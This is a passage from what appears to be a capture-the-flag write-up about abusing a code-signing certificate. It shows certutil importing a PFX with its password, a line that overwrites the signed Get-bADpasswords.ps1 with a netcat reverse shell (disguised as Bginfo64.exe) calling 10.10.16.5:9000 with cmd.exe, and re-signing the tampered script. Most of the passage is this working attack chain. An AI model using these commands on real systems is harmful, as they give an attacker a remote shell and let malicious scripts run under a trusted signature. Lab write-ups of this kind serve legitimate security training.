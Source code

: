 Decrypt the PFX

![](<../../.gitbook/assets/image (42).png>)

Back to Get-BAdPAsswords

The PS1 is signed with a certificate.

I will copy the Powershell script and maniuplate it for another Shell.

For this to work, I need to edit the PS1 and re-sign it with the Certificate.

```
#Add Certificate to Local Store
certutil -user -p abceasyas123 -importpfx tmp.pfx NoChain,NoRoot  

#Verify Certificate is in CurrentUser Store
Get-ChildItem cert:\CurrentUser\My

#Create variable and select Certificate
$codeCertificate = Get-ChildItem cert:\CurrentUser\My | Where-Object {$_.Subject -like "*Administrator*"}

#Replace content of Get-BAdpasswords.ps1 with NetCat (Named as BGInfo64) - Create Reverse Shell
cmd.exe /c "echo C:\share\Bginfo64.exe 10.10.16.5 9000 -e cmd.exe > Get-bADpasswords.ps1"

# Sign Powershell script with Certificate
Set-AuthenticodeSignature -FilePath Get-bADPasswords.ps1 -Certificate $codeCertificate 
```

Adding Certificate to Store

![](<../../.gitbook/assets/image (40).png>)

Verifying Certificate in Store
